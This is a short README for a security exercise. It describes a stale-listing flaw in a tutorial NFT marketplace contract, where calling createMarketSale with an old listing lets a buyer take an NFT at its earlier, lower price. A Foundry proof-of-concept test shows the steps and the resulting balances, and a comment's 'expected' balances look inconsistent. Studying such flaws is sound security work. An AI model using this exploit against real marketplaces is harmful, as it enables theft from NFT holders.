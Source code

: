 # NFT marketplace exploit

Smart contract exploit on the most popular nft marketplace [tutorial](https://www.youtube.com/watch?v=GKJBEEXUha0&t)

## Exploit

An nft can be bought with the information of its previous listings by calling ```createMarketSale``` with older data and 

A hacker can buy any NFT listed with an older listing data by calling ```createMarketSale``` on a previous listing id.
For example, if an NFT is currently listed at 10 ether and it was listed at a 1 ether, a hacker can get buy it for 1 ether.

The 1 ether is transfered to the old lister instead of the current one.

    // Start seller has 1 NFT - 10 ether
    //       buyer has 10 ether
    //       hacker has 10 ether
    
    // Minter-Seller lists its nft for 1 ether
    vm.prank(seller);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 1 ether);


    // buyer buys the nft for 1 ether & lists it for 10 ether
    
    vm.startPrank(buyer);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    nft.approve(address(marketplace), 1);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 10 ether);
    vm.stopPrank();


    // hacker is able to buy the nft for 1 eth using the old listing data.
    // Buyer loses its nft
    
    vm.startPrank(hacker);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    
    assertEq(seller.balance, 12 ether);
    assertEq(buyer.balance, 9 ether);
    assertEq(hacker.balance, 9 ether);
    assertEq(nft.balanceOf(hacker), 1);

    // End (hacked) seller has 12 ether
    //              buyer has 9 ether
    //              hacker has 9 ether & 1 NFT


    // Expected    seller has 11 ether
    //              buyer has 19 ether
    //              NotHacker has 0 ether & 1 NFT

### Disclaimer
*The purpose of this repository is a simple security exercise & do not encourage to hack smart contracts in the real world.*
